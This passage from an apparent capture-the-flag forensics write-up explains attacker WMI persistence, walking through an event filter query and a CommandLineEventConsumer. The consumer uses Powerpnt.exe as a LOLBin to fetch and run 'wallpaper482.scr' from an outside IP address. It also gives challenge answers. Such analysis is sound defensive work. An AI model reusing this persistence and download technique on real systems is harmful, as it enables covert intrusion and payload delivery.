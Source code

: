 We see that [WMIC](https://attack.mitre.org/techniques/T1047/) (Windows Management Instrumentation Command-line) has been used to create persistence.

In the first command, we see that an event filter is being created. _An event filter is basically a condition that waits for something specific to happen._ It's been given a name `eGfQekUIgc`. We also see a namespace `root\cimv2` beng specified. A query language WQL (WMI Query Language) is specified and a query `SELECT * FROM __InstanceModificationEvent WITHIN 9000 WHERE TargetInstance ISA 'Win32_PerfFormattedData_PerfOS_System'` seems to be run. This specific query means that it's looking for any modification events where the target instance is of type 'Win32_PerfFormattedData_PerfOS_System', and it checks every 9000 seconds (2.5 hours).

With this in mind, we have our answer as `wmic` and the answer to question 8 - `2.5 hours`

`wmic`

## 8. How often would the persistence be executed once Windows starts? (format: X.X hours)?

`2.5 hours`


## 9. Which LOLBin would have been used in the persistence method?

The second command creates a command line event consumer. Basically, this is the action that will be performed when the event filter condition is met. In this case, the CommandLineEventConsumer is given a name `RHWsZbGvlj`. `ExecutablePath="C:\Program Files\Microsoft Office\root\Office16\Powerpnt.exe 'http://60.187.184.54/wallpaper482.scr' "` indicates that `Powerpnt.exe` will be used to download a file from the specified URL. This is abit sus.

`CommandLineTemplate="C:\Users\%USERPROFILE%\AppData\Local\Microsoft\Office\16.0\OfficeFileCache\wallpaper482.scr"` specifies where the downloaded file (wallpaper482.scr) will be saved on the system.

With this in mind, we know that `Powerpnt.exe` is a known LOLBin used to download payloads from remote servers.

For more information, feel free to check the [lolbas-project](https://lolbas-project.github.io/lolbas/OtherMSBinaries/Powerpnt/)

![image](https://user-images.githubusercontent.com/58165365/248570278-3015d36a-1657-4a84-a86a-f8a7b7b0bca8.png)
 

`Powerpnt.exe`

## 10. What is the filename that would have been downloaded and executed using the LOLbin?

<_refer to explanation on question 9 above_>

`wallpaper482.scr`

## 11. Where would this have been downloaded from? (format: IP address)

<_refer to explanation on question 9 above_>
